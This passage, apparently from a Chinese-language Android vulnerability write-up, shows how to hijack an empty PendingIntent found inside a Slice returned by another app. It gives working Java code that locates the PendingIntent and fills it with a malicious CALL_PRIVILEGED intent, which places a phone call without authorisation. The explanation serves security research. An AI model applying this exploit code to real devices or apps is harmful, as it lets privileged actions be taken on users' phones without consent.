 ```java
    }
```

那个`action`就是需要劫持的`PendingIntent`，通过观察，位于返回`Slice`第`3`个`SliceItem`的第`1`个`SliceItem`，用代码表示就是：

```java
Slice slice = responseBundle.getParcelable("slice");
PendingIntent pi = slice.getItems().get(2).getSlice().getItems().get(0).getAction();
```

**其实这个办法不够严谨**，然而 不同厂商封包是否相同，需要深入思考。  
一种简单暴力的方式，就是逐步打印`Slice`结构体的内容，由于大部分内容不可解析而无法打印，但`getItem()`后，还是能出现可能的成员对象，一步步寻找到某个Action为`PendingIntent`，因为整个`Slice`中只有一个，所以找到就是成功了。  
下面就是`Google Pixel 2 Android 9`的路径，可以看出和 其他厂商封包不同。

```java
Log.d("see", "slice: "+slice.getItems().get(1).getSlice().getItems().get(0).getSlice().getItems().get(0).getAction().toString());
```

最后，构造恶意的`intent`来填充`mPendingIntent`的双无`intent`，比如无授权的自动拨打电话

因为初始化`PendingIntent`时传入的是一个没有内容的`new Intent()`，所以攻击者在调用`PendingIntent.send()`时可以随意填充`Intent`里的大部分内容。这是因为在系统源码里`PendingIntentRecord.sendInner`调用了finalIntent.fillIn(intent,key.flags)，允许调用者填充`Intent`的值。

```java
Intent evilIntent = new Intent("android.intent.action.CALL_PRIVILEGED");
evilIntent.setData(Uri.parse("tel:000"));

try {
            pi.send(getApplicationContext(), 0, evilIntent, null, null);
        }catch (PendingIntent.CanceledException e){
            e.printStackTrace();
        }
```